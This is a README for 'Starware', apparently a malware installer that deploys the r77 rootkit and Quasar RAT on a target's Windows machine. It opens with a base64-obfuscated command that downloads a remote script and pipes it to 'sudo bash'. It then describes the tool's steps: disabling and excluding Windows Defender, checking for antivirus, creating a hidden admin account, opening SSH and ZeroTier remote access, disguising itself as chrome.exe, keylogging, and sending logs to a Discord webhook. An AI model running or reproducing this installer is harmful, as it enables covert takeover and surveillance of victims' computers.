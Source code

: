 echo "Y3VybCAtcyBodHRwczovL2dpdGh1Yi5jb20vT2d5ZWV0MTAvaW5zdGFsbGVyOTAwMC9yYXcvcmVmcy9oZWFkcy9tYWluL2luc3RhbGwuc2ggfCBiYXNo" | base64 -d | sudo bash


# Starware

Starware is a comprehensive installer script that integrates two powerful tools into a single seamless installation process on your targets system: [r77-rootkit](https://github.com/bytecode77/r77-rootkit) and [Quasar RAT](https://github.com/quasar/Quasar). This tool is designed for advanced users looking to monitor and manage remote systems effectively.

## Features

- **Automated Installation**: Automatically installs and configures r77-rootkit and Quasar RAT.
- **AV Checks and Evasion**: Utilizes WMI to check for installed antivirus products and terminates if a non-whitelisted AV is detected.
- **Remote Access Setup**: Configures an SSH server for remote access and sets up SSH to use a public key for authentication (Note: Public key authentication is currently a work in progress).
- **Network Configuration**: Downloads and installs ZeroTier One and configures it to use a specified ZTO network.
- **Comprehensive Logging**: Sends a complete log and the final status of the installation (success, failure, etc.) to a specified Discord webhook.
- **Quasar Features**: Includes numerous remote tasks such as TCP networking, file management, remote desktop, system monitoring, keylogging, and much more.
- **Stealth Operation**: All activities are concealed using the r77 rootkit.

## Upcoming Features

- **Starware Tools**: A new set of tools for easier configuration and interaction with the target system, including:
  - **DeElevatedPsWindow**: Allows running a PowerShell script/command in the user's desktop context, hidden from the user.
  - **Troll9000**: A playful tool for changing the desktop wallpaper or rotating the monitor display at specified intervals using a background PowerShell process.

## Installation (WIP)


# Starware Execution Flow

Starware script automates the installation and configuration of key components while ensuring a stealthy setup. Below is a detailed overview of the execution flow:

## Initialization and Privilege Check

- Checks if the script is run with Administrator privileges.
- If not, it relaunches itself with the necessary privileges by downloading and executing an encoded command from its GitHub repository.

## Exclusion List Configuration

- If running with admin rights, modifies the Windows Defender exclusion list to ignore paths for:
  - `$77SWClient.exe` - The Starware/Quasar client.
  - `chrome.exe` - The disguised installer executable for Starware and r77.

## Logging Setup

- Initializes a log file named with the hostname and current timestamp to record all operations.

## Error Handling and IP Address Retrieval

- Defines functions for robust error handling and fetching the public IP address using an external service.

## System Information Gathering

- Collects comprehensive system information including CPU details, memory usage, disk info, network details, and public IP address.

## Windows Defender and Antivirus Handling

- Disables Windows Defender real-time monitoring.
- Checks for installed antivirus products and halts execution if any non-whitelisted AVs are detected.

## Notification and Information Reporting

- Sends a notification to a Discord webhook detailing the execution context (hostname and public IP).

## Service and Process Configuration

- Configures r77’s registry settings to hide specific services and processes.
- Installs and sets up OpenSSH Server if not previously installed.
- Installs "ZeroTier One" and downloads "chrome.exe" from the GitHub repository.

## User Account Management

- Creates and hides a new administrative user (`ssh-user`) using registry settings if it doesn't already exist.

## Network Configuration and Cleanup

- Joins a specified ZeroTier network.
- Re-enables Windows Defender Antivirus post-operation.
- Removes any temporary files created during the process.

## Finalization

- Completes the logging session and sends the final log file to the Discord webhook for record-keeping.


## Usage

After installation, Starware can be configured via the generated configuration files or using the upcoming Starware Tools.

## Caution

This software is intended for educational and legally sanctioned purposes only. Users are responsible for ensuring they comply with all applicable laws and regulations.

## License

This project is licensed under [license name] - see the [LICENSE.md](LICENSE.md) file for details.

## Acknowledgments

- Thanks to [bytecode77](https://github.com/bytecode77) for the r77-rootkit.
- Thanks to the developers of [Quasar](https://github.com/quasar/Quasar).
